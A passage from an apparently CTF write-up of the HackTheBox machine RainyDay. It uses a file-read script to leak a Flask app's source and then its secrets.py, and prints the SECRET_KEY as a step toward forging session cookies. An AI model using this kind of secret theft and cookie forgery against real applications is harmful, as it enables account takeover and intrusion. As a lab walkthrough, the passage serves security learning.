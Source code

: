 The final script is available [here](https://gitlab.com/0xdf/ctfscripts/-/blob/master/htb-rainyday/file_read.py).

### Website Access as jack

#### Read Web Source

I’ll use the script to read the source for the web application at the path leaked by `/api/healthcheck` on dev. It’s very slow, but at the top of the file, after all the other imports, there’s an import of `SECRET_KEY`:

```

#!/usr/bin/python3 
                                        
import re                     
from flask import *
import docker
import bcrypt                                  
import socket       
import string
from flask_sqlalchemy import SQLAlchemy 
from os.path import exists
from hashlib import md5
from inspect import currentframe, getframeinfo 
from urllib.parse import urlparse 
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

#secrets.py 
from secrets import SECRET_KEY

app = Flask(__name__, static_url_path="")
app.config['SECRET_KEY'] = SECRET_KEY
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///sessions/db.sqlite' 

limiter = Limiter( 
...[snip]...

```

I’ll read `secrets.py` from the same directory:

```

oxdf@hacky$ python file_read.py /var/www/rainycloud/secrets.py
SECRET_KEY = 'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67' 

```

#### Cookie Generation

I’ll notice that when I log into the website as gary, there’s a `session` cookie that gets set. Firefox dev tools breaks it out a bit:
